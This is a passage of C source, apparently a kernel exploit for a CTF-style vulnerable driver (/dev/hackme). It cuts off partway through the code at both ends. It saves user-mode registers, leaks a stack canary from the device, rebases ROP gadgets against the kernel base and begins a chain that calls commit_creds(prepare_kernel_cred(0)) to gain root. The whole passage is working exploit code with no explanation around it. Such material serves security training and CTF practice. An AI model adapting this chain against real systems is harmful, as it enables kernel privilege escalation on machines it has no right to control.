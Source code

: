 ```c
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    info("status saved!",0);
}

void show( size_t buf[] , int len){
    for (int i =0;i<len;i++){
        printf("0x%-4x -> 0x%lx\n" , i,buf[i]);
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
    pop_rcx_ret += vmlinux_base;

    mov_rdi_rax_jne_pop2_ret += vmlinux_base;

    cmp_rdx_jne_pop2_ret += vmlinux_base;
    swapgs_pop_rbp_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}


int main(){
    
    size_t buf[0x100] = {0};
    size_t rop[0x600] = {0};
    size_t canary ; 
    int length =  0x140;
    int i = 0x10;

    save_status();

    int fd = open("/dev/hackme" , 2);

    read(fd , buf ,length);

    show(buf , length/8);
    canary = buf[i];
    // vmlinux_base = buf[0x26] - 0xa157;
    set_offset();

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;
    // rop[i++] = (size_t)get_shell;

    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
```